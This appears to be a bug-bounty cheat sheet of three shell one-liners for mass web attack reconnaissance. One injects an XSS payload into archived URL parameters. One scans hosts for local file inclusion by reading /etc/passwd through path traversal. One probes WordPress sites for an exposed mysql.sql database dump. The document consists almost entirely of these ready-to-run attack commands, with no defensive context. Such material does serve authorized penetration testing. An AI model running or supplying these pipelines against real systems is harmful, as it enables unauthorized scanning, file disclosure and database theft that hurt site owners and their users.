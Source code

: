 # Oneliners

### XSS from waybackurls and qsreplace
`echo https://target.com
 | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq`

### Local File Inclusion using httpx
`cat hosts | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path "///////../../../etc/passwd" -mr "root:x" | anew lfi-httpx.txt`

### Wordpress Wp-content mysql.sql
`cat hosts.txt | httpx -c -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -p 80,443,8080,8443 | anew wp-sql.txt`
